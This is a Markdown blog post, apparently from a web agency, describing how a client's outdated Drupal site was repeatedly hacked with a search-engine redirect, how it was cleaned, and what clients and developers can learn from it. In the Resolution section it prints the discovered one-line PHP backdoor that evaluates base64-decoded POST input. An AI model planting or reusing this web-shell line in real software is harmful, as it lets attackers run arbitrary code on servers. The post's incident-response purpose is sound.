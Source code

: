```yaml
---
title: 'Lessons Learned from a Hacked Website'
templateKey: blog-post
date: 2011-12-28T15:35:52.000Z
category: 
  -Development, Drupal
alias: lessons-learned-hacked-website
summary: > 
 Within the last couple of months one of our client’s websites was hacked. This is a rarity, and we responded swiftly to restore a previous version of the site; however, we still needed to get rid of the actual problem. Through the experience there were a number of lessons learned that anyone, whether client or developer could benefit from. 
author: Art Williams
image: /assets/hacking_0.jpg
---
```


Within the last couple of months one of our client’s websites was hacked. This is a rarity, and we responded swiftly to restore a previous version of the site; however, we still needed to get rid of the actual problem. Through the experience there were a number of lessons learned that anyone, whether client or developer could benefit from. 

Reason the site was hacked
--------------------------

The story starts with a website that was built by Digett over five years ago. When you consider that the first website ever was created on August 6, 1991, a five year-old website today is 25% as old as the entire World Wide Web — that’s a long time for a website to live.

The more substantial statistic is that in its five-year existence, this site had never been updated, and was still running version 4.7 of the Drupal content management system (the current stable version of Drupal is version 7). The site allows visitors to post pictures and text to the site without needing to login to the site, a kind of activity that is especially difficult to insulate against hacking attempts. These factors combined into the perfect storm, and the site was hacked.

Type of hack
------------

Whenever a user typed the address to the site into their browser they made it to the site and could navigate as if there was no problem; but users who searched for the site on Google or any other search engine were redirected to the hacker’s website when they clicked on the search result.

The nature of this hack made it difficult to detect. Typically those most familiar with a site, such as the owner and the developer, will just enter the address directly and see nothing wrong with the site — only on the rare chance that someone close to the site searches for it will the hack be detected.

Resolution
----------

After repeated attempts to clean the site just to see it re-hacked the next day, we were able to convince the client that the best course of action was to update the site. The site was upgraded to Drupal 7, which would take a few blog posts to describe, and we thought we were in the clear.

The site remained clean for a week or so, only to be hacked yet again. By this point we wanted to pull our hair out. We started from the beginning and began to systematically eliminate possibilities. We changed database passwords, FTP passwords, and Drupal login credentials. We cleaned the database of all ‘php’, ‘script’, and ‘perl’ strings. And each morning we arrived to a newly hacked site. This went on for two days.

On the third day, after half a dozen runs through the file system looking for malicious code, we finally tracked down the culprit — a single php file with one line of code:

    
    eval(base64_decode($_POST["php"]))
    

Once removed the site has remained clean for a couple of weeks now.

_(For those who are interested, this code allows someone who knows the location of the file to attach any php code they want as the value of the ‘php’ key in the attribute string of the url. In short they can run any php code they want. It’s bad stuff!)_

A learning experience
---------------------

In my opinion the age of the site code base was the underlying reason for the initial hack. Once that was updated the site vulnerabilities were eliminated. The only thing left was a sneaky and tenacious line of malicious code that had survived the upgrade process.

Anyone still running a site on Drupal 4.7 is playing with fire, but sometimes it’s hard to convince clients who have spent good money on a professional site that it’s time to do it again.

### Lessons for clients

*   Budget the money to keep your site code up to date with the latest security patches. Ask your developer how much is needed and how often it should be done. I touched on [reasons to update your Drupal site](/blog/08/31/2011/case-upgrading-your-drupal-website) earlier this year.
*   Talk with your site developer about other possible security concerns that should be addressed. With this site we were dealing with I would prefer from a security standpoint that users be required to login to the site before posing images and text. If that isn’t possible, then work out the limitations to what anonymous users are allowed to post and clamp down on everything else.

### Lessons for developers

*   Prepare your clients during the initial sales process for the ongoing maintenance costs of your particular framework. Then you won’t find yourself in the position of trying to convince clients to upgrade five years later.
*   Have a plan for the eventuality of a site getting hacked. Have backups and build a checklist of your procedure to make sure no malicious code sneaks past you.

This whole experience was rather painful for the client and us, but if we can learn these lessons and prevent other clients and developers from making these mistakes, then at least our experience was worth it.

If you are a client of Digett or any other web development company and you are not sure if your site is being kept up to date through a maintenance retainer, contact your developer now and ask how to get that issue resolved.